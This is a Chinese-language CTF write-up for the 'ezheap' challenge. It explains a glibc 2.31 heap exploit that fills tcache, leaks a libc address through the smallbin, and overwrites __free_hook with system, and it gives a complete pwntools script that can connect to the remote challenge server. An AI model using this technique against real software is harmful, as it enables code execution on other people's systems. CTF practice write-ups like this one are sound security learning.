 # W4 ezheap

## 文件分析

下载`ezheap`, 保护全开  
ghidra分析为64位程序

## 逆向

是一个note录入程序，很明显是堆题

libc是2.31，有tcache，有tcache校验，不方便double free；hook还在，考虑利用

tcathe能存7个相同size的chunk，先消耗掉，就可以把接下去分配的chunk放到
fastbin 里，然后通过分配大chunk来把fastbin里的chunk扫到smallbin里，
smallbin里就有libc，拿到libcBase就可以求偏移改hook，调system

这道题的限制:  
notebook有限，可以通过分配与note结构一样大的 "字符串"
来快速消耗tcache；  
edit函数检验了note的首项，如果不经修改，就是fd，
无法成功利用，需要先伪造note结构通过检验，还要把字符串地址改为freeHook，
就能把system写进freeHook里；  
freeHook还不在debug符号里，需要自己推出来

## EXPLOIT

```python
from pwn import *
lo = 1

if lo:
    sh = process('ezheap')
    gdb.attach(sh)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.31-0ubuntu9.12_amd64/libc-2.31.so')
else:
    sh = remote('node4.buuoj.cn', 25961)
    libc = ELF('libc-2.31.so')

def addn(idx:int, size:int, note:bytes=b'what'):
    sh.recvuntil(b'>>')
    sh.sendline(b'1')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())
    sh.recvuntil(b'size')
    sh.sendline(str(size).encode())
    sh.recvuntil(b'note')
    sh.sendline(note)

def deln(idx:int):
    sh.recvuntil(b'>>')
    sh.sendline(b'2')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())

def show(idx:int):
    sh.recvuntil(b'>>')
    sh.sendline(b'3')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())

def edit(idx:int, note:bytes):
    sh.recvuntil(b'>>')
    sh.sendline(b'4')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())
    sh.recvuntil(b'ent')
    sh.sendline(note)

addn(0, 64)
addn(1, 64)
addn(2, 64)
addn(3, 64)
addn(4, 64)
addn(5, 64)
addn(6, 64)
addn(7, 64)
addn(8, 64)
deln(6)
deln(5)
deln(4)
deln(3)
deln(2)
deln(1)
deln(0)
deln(8)
deln(7)
"""
bins now:
inuse: (size 0x51) 0 ~ 8
tcache: head -> 0 -> 1 -> 2 -> 3 -> 4 -> 5 -> 6 (full)
fastbin: head -> 7 -> 8
"""

addn(9, 1024)       #0 huge chunk to trigger malloc consolidate
"""
bins now:
inuse: ...
tcache: head -> 1 -> 2 -> 3 -> 4 -> 5 -> 6
small bins: head <-> 7 <-> 8 <-> tail
"""
addn(10, 64)        #1
addn(11, 32)        #2, 3 alloc 0x20 unit to consume bins quickly
addn(12, 32)        #4, 5
addn(13, 32, b'\n') #6, 8 FIFO; '\n' to avoid writing on fd
edit(13, b'')       # write a '\n' in the end (will be amended below)
show(13)            # chunk 8 in small bins, fd is libc addr

sh.recvuntil(b'(0~15): \n') # skip

# find offset first
dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
print('main_arena in libc:', hex(dumpArena))

# read and shift addr to libcBase
mainArena = u64(sh.recv(6) + b'\0\0') - 0x0a - 0x80 # sub '\n' & small bin offset
print('main_arena  actual:', hex(mainArena))
libcBase = mainArena - dumpArena
freeHook = libcBase + libc.symbols['__free_hook']
systemAddr = libcBase + libc.symbols['system']

edit(11, p64(64) + b'0'*0x10 + p64(freeHook)) # forge notebook[3], notebook[3] -> str = freeHook
edit(12, b'/bin/sh\0')                        # forge notebook[5] as the arg of system
edit(3, p64(systemAddr))                      # notebook[3] -> size == sizes[3] => *freeHook = systemAddr
deln(5)                                       # trigger freeHook

sh.interactive()
```

Done.
